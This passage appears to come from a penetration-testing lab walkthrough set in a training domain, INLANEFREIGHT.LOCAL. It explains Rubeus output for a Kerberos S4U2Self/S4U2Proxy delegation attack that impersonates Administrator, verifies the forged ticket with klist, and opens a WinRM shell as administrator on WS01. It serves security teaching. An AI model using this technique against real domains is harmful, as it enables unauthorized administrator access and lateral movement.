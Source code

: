 
## Breaking Down the Rubeus Command

This output from `Rubeus` is great, as we can see what's going on. First, Rubeus asks for a TGT so that we can be in the context of `DMZ01$`. Then it performs an S4U2Self request to get a TGS ticket as Administrator.
```powershell-session
[*] Got a TGS for 'Administrator@INLANEFREIGHT.LOCAL' to 'DMZ01$@INLANEFREIGHT.LOCAL'
```

Finally, it uses this TGS ticket to perform a S4U2Proxy request and will update the SPN to match what we requested, which is the `HTTP` service.
```powershell-session
[*] Impersonating user 'Administrator' to target SPN 'www/WS01.inlanefreight.local'
[*]   Final ticket will be for the alternate service 'http'
```

---

## WS01: Verifying New Ticket

We can check our new ticket with the `klist` command.
```powershell-session
PS C:\Tools> klist

Current LogonId is 0:0x3f22d97

Cached Tickets: (1)

#0>     Client: Administrator @ INLANEFREIGHT.LOCAL
        Server: http/WS01.inlanefreight.local @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 8/15/2020 10:37:16 (local)
        End Time:   8/15/2020 20:37:16 (local)
        Renew Time: 8/22/2020 10:37:16 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

---

#### Using the Ticket for Remote Access from DMZ01

This ticket can be used to get a remote shell via WinRM on `WS01.inlanefreight.local`:
```powershell-session
PS C:\Tools> Enter-PSSession ws01.inlanefreight.local

[ws01.inlanefreight.local]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami

inlanefreight\administrator
```

